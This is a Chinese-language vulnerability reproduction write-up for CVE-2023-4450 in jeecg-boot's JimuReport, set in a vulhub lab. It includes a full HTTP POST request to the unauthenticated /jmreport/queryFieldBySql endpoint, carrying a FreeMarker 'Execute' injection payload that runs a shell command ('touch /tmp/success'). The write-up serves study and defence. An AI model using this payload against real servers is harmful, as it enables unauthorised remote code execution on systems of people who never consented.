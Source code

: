 
jeect-boot 积木报表漏洞 rce 分析 (CVE-2023-4450)

- - -

# jeect-boot 积木报表漏洞 rce 分析 (CVE-2023-4450)

## 一。漏洞复现

这里使用的漏洞环境时 vulhub 的 jeect-boot。靶场介绍说是：

以下的 Jimureport 组件库中都存在，由于未授权的 API `/jmreport/queryFieldBySql` 使用了 freemarker 解析 SQL 语句从而导致了 RCE 漏洞的产生。

```plain
POST /jeecg-boot/jmreport/queryFieldBySql HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: curl/7.88.1
Accept: */*
Content-Type: application/json
Content-Length: 121
Connection: close

{
    "sql": "<#assign ex=\"freemarker.template.utility.Execute\"?new()>${ex(\"touch /tmp/success\")}",
    "type": "0"
}
```

[![](assets/1704273687-cc31aa873f2ccee487b2392e45af80f5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103153336-67c4c87a-aa0a-1.png)
